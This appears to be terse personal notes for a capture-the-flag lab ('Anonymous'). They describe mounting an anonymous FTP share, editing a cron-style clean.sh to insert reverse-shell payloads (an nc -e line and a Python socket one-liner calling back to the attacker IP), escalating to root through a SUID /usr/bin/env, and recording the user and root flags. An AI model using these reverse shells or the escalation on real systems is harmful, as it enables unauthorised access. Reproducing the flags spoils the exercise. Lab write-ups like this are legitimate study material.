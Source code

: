 ### Anonymous ###

export IP=10.10.79.109

found clean.sh in the ftp server

nc -e /bin/sh 10.11.18.102 1234



#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi


# curlftpfs

Found a tool which allows you to basically mount the ftp shares to my machine...


mkdir -p ftp_anonymous
curlftpfs anonymous@10.10.79.109 ftp_anonymous
cd ftp_anonymous
ls

Now i can edit the clean.sh as i intended and insert this cmd:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.18.102",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


# User.txt:

90d6f992585815ff991e68748c414740

find / -perm +u=s 2>/dev/null

/usr/bin/env has a SUID bit:GTFOBins rocks:
/usr/bin/env /bin/sh -p


# Root.txt:
4d930091c31a622a7ed10f27999af363